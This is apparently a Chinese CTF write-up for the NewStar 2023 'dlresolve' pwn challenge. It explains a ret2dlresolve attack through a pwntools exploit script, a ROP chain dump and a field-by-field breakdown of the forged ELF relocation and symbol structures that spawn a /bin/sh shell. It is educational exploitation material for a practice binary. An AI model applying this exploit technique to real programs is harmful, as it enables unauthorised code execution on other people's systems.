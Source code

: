 ```yaml
---
title: newstar2023 week3 - dlresolve
date: 2023/10/10 12:00:00
updated: 2024/8/26 17:18:00
tags:
    - ret2dlresolve
thumbnail: /assets/newstar2023/relro.png
excerpt: 使用pwntools实现ret2dlresolve漏洞利用，简化了官方复杂的解题方式。
---
```


## 文件分析

NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

题目提示了使用ret2dlresolve，我们可以直接使用pwntools的工具生成

官方题解用了比较复杂的方式，而且与脚本实现也有很多不同，所以我就想弄清楚 pwntools
与官方题解有什么区别，因此下文只解析pwntools的实现，文末我也会把官方题解放上

## EXPLOIT

```python
# copy from official sample
from pwn import *
def payload():
    global sh
    context.arch = 'amd64'
    sh = gdb.debug('dlresolve')
    elf = ELF('dlresolve')

    bssHigh = 0x404500
    readAddr = 0x401192
    leaveRetAddr = 0x4011a9
    retAddr = 0x4011aa

    rop = ROP(elf)
    dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=["/bin/sh"])
    rop.read(0, dlresolve.data_addr)
    rop.ret2dlresolve(dlresolve)
    raw_rop = rop.chain()

    sh.sendline(b'0'*120 + p64(retAddr) + raw_rop)
    sh.sendline(dlresolve.payload)
    sh.interactive()

payload()
```

## Ret2Dlresolve对象详解

相比起官方脚本，用工具生成不但简单，而且payload也短，以下是我的研究结果

使用`rop.dump()`，我们得以窥见rop攻击的具体含义：
```
0x0000:         0x40116b pop rsi; ret
0x0008:         0x404e00 [arg1] rsi = 4214272
0x0010:         0x40115e pop rdi; ret
0x0018:              0x0 [arg0] rdi = 0
0x0020:         0x401064 read
0x0028:         0x40115e pop rdi; ret
0x0030:         0x404e38 [arg0] rdi = 4214328
0x0038:         0x401020 [plt_init] system
0x0040:            0x30b [dlresolve index]
```
> ps: 复盘的时候忘记加`context.arch = 'amd64'`了，dump结果都变了，一定要注意！

到read都不必我说，接下来pop的rdi，是指向伪造出来的"/bin/sh"字符串的指针，
这样就能在解析完成后指定参数打开shell；然后0x401020是plt_init的地址，
这个“函数”做两件事：将link_map压到栈上，然后执行`dl_runtime_resolve`函数进行加载  
栈上还有一个index，是下图中的reloc_arg，可以由此指向伪造的ElfRel

那么这里为什么reloc_arg是0x30b呢？查了以下pwntools的源码，计算可推出如下关系：
`reloc_arg * ElfRel.size + __DT_JMPREL -> &fakeRel`
因为64位下ElfRel的大小是24字节，计算中可以将24带入；__DT_JMPREL是指`__DT_JMPREL`这个标签的地址；
这里使用'->'是因为这两边并不一定相等，而是存在对齐调整的  
至此，`rop`部分已经分析完毕

接下来是`dlresolve.payload`部分：这一部分没有`dump`函数，只有bytes，
不过动调以后也逐渐搞明白了其结构，接下来用伪c代码，按结构展开各个字节对应的内容  
（前面的标号是字段在payload中的起始地址）
```c
0:  "system\0a" // 'a' for padding
Elf64_Sym fakeSym = {
8:  st_name = 0x49a8, // __DT_STRTAB + st_name == (char *)"system"
12: st_info = 0,
13: st_other = 0,
14: st_shndx = 0,
16: st_value = 0,
24: st_size = 0
} // size: 24
Elf64_Rel fakeRel = {
32: r_offset = 0x404e00,    // 解析完的地址存放的地址（伪造got）
40: r_info = 0x31800000007, // __DT_SYMTAB + 0x318 * 24 == &fakeSym
48: r_append = 0
} // size: 24
56: "/bin/sh\0" // argument
```
共计64字节，无关的条目全部填0，需要伪造的条目已经在后面写上了注释，具体dlresolve的执行流程见下图：  
![图解](/assets/newstar2023/relro.png)  
可以看到，所生成的结构在函数解析中一次次被使用，没有任何多余

如果到这里还觉得迷迷糊糊的话，建议动调步进观察`dl_fixup`函数的运行情况；
此外我在研究的时候也离不开[这篇知乎文章](https://zhuanlan.zhihu.com/p/134105591)的深入讲解，
搭配两者一起使用，是能理解其中奥秘的根本

另外，作者还提到了其他文章所没有介绍的Full Relro的利用方法，也可以学习一下

## 参考

1. [图片来源文章](https://blog.csdn.net/IO1n0/article/details/103323738 "透过深入分析延迟绑定了解 ret_2_dl_resolve:1Oin0的博客")
2. [深入讲解动态加载技术的知乎文章](https://zhuanlan.zhihu.com/p/134105591 "深入窥探动态链接:1Oin0的看雪论坛文章")
3. [官方题解](https://shimo.im/docs/QPMRxzGktzsZnzhz/read "详见dlresolve一节")
4. [dlresolve官方示例](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html#module-pwnlib.rop.ret2dlresolve "pwnlib.rop.ret2dlresolve")
5. [dlresolve源码](https://github.com/Gallopsled/pwntools/blob/2e09b7dd91/pwnlib/rop/ret2dlresolve.py "pwntools/pwnlib/rop/ret2dlresolve.py @ GitHub")

Done.
